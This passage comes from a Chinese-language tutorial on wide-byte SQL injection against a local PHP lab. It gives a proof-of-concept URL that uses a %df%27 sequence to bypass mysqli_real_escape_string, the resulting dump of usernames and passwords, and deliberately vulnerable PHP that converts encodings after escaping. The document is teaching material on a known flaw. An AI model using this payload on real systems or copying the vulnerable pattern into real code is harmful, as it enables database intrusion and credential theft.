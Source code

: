 poc
```shell
http://127.0.0.1/multi-bytes-inject-2.php?userName=Dumb%df%27%20or%201=1%20%23
```
result
```shell
userName : Dumb 
pass : Dumb 
userName : Angelina 
pass : I-kill-you 
userName : Dummy 
pass : p@ssword 
userName : secure 
pass : crappy 
userName : stupid 
pass : stupidity 
userName : superman 
pass : genious 
userName : batman 
pass : mob!le 
userName : admin 
pass : admin 
userName : admin1 
pass : admin1 
userName : admin2 
pass : admin2 
userName : admin3 
pass : admin3 
userName : dhakkan 
pass : dumbo 
userName : admin4 
pass : admin4
```
**3、 incov带来的风险 utf-8 -> gbk**

还是刚才的内容，只是把utf-8和gbk的位置颠倒下，这里的问题出现在转码之后
```php
<?php
include_once("con.php");
if(!$_GET['userName']){
    die("please input GET method userName param");
}
$userName = mysqli_real_escape_string($con,$_GET['userName']);
#$encodeuserName = iconv("GBK","UTF-8",$userName);
$encodeuserName = iconv("UTF-8","GBK",$userName);
$sql = "select * from users where username = '{$encodeuserName}'";
$result = mysqli_query($con,$sql);
if(!$result){
    die(mysqli_error($con));
}
while($row = mysqli_fetch_row($result)){
    printf("userName : %s <br /> pass : %s <br />",$row[1],$row[2]);
}
mysqli_free_result($result);
mysqli_close($con);
?>
```
